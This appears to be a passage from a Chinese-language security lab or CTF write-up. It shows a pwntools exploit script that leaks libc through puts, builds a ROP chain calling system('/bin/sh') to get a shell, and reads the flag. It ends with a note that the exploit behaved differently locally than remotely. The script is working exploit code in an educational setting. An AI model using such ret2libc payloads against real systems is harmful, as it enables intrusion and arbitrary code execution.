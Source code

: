 ```python
lib_binsh = 0x1b75aa
lib_puts = 0x875a0
lib_system = 0x55410

rbp_target = 0x7ffff0001fff # arbitrary

# === Run 1 ===
#  == r_f() ==
treasure1 = p64(ret_gadget) + p64(rdi_gadget) + p64(puts_got) + p64(puts_plt) + p64(r_f)
conn.recvuntil(b'ing...')
conn.sendline(treasure1)

# == o_k() ==
one1 = p_2_g_bytes
conn.recvuntil(b'[1] damage:')
conn.sendline(b'0')
conn.recvuntil(b'[2] damage:')
conn.sendline(one1)

# == o_p() ==
one_punch = b'A' * 16 + p64(rbp_target) + p64(pop_5_gadget)
conn.recvuntil(b'----->\n')
conn.send(one_punch)

# == get offset ==
storeRecv = conn.recvline()
puts_addr = u64(storeRecv[:-1]  + b'\x00\x00')

lib_base = puts_addr - lib_puts
system_addr = lib_base + lib_system
binsh_addr = lib_base + lib_binsh

# === Run 2 ===
#  == r_f() ==
treasure2 = p64(rdi_gadget) + p64(binsh_addr) + p64(system_addr)
conn.recvuntil(b'ing...')
conn.sendline(treasure2)

# == o_k() ==
one1 = p_2_g_bytes
conn.recvuntil(b'damage:')
conn.sendline(b'0')
conn.recvuntil(b'damage:')
conn.sendline(one1)

# == o_p() ==
one_punch = b'0' * 16 + p64(rbp_target) + p64(pop_5_gadget)
conn.recvuntil(b'----->')
conn.sendline(one_punch)

conn.sendline("./flag.exe 3190105871");
conn.interactive()
```
得到了正确结果！
![image.png](./assets/1654202447309-5c8fc7f2-3a61-4132-b750-853ec5f80756.png)
:::warning
注：本题和 Lab 2 第 2 题一样，都出现本地运行不正确但远程运行正确的问题。具体的表现是一致的，即应当是`"/bin/sh"`的地方变成了`"/usr/share/locale"`：
![image.png](./assets/1654202701741-fad799c4-5baf-4a2d-b3c7-b71112080978.png)
:::
